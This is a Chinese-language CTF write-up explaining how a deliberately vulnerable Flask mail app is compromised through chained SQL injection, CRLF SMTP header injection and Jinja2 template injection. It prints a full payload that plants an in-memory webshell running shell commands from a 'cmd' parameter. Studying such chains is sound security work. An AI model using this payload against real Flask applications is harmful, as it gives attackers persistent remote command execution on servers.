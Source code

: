 # Flask应用安全分析 - CTF挑战解析

## 1. 漏洞链概述

这个CTF挑战涉及一个具有多个漏洞的Flask应用，攻击者可以通过一系列精心设计的步骤来植入内存马（Memory WebShell）。完整的攻击链包含以下漏洞：

1. SQL注入
2. SMTP头注入
3. 服务器端模板注入(SSTI)
4. 代码执行
5. Flask内存马植入

## 2. 攻击链完整流程

### 2.1 精心构造的Payload

```
url=http://ezmail.org:3000/news?id=0 union select "{{url_for.__globals__['__builtins__']['eval']('app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get(\'cmd\') and exec(\'global CmdResp;CmdResp=__import__(\\\'flask\\\').make_response(__import__(\\\'os\\\').popen(request.args.get(\\\'cmd\\\')).read())\')==None else resp)',{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}";%0d%0aFrom: admin@ezmail.org&content=123
```

### 2.2 攻击步骤详解

1. **提交报告表单**
   - 攻击者向`/report`路由提交带有恶意payload的表单
   - URL参数中包含SQL注入、模板注入和SMTP头注入

2. **SMTP头注入**
   - 系统构造邮件时使用了不安全的字符串格式化
   - `smtplib._quote_periods = lambda x: x`禁用了SMTP安全措施
   - `%0d%0a`被解码为回车换行，注入新的`From: admin@ezmail.org`头
   - 邮件被伪造成从admin自己发给自己

3. **管理员访问触发**
   - 当管理员访问`/admin`路由时
   - 系统通过`get_subjects("admin", "p@ssword")`获取邮件
   - 由于发件人是"admin@ezmail.org"，伪造的邮件被成功获取
   - 系统读取邮件主题(含有SQL注入的URL)

4. **SQL注入执行**
   - `fetch_page_content`函数访问邮件主题中的URL
   - `/news`路由处理请求，执行SQL查询：`SELECT title FROM news WHERE id = 0 UNION SELECT "{{...}}"`
   - 查询返回包含模板注入代码的字符串
   - HTTP响应码为200，`fetch_page_content`返回响应内容

5. **模板注入执行**
   - 返回的内容被插入到`render_template_string`函数中
   - Flask的Jinja2模板引擎执行模板表达式
   - 模板代码通过`url_for.__globals__`访问Flask内部对象
   - `eval`函数执行恶意Python代码
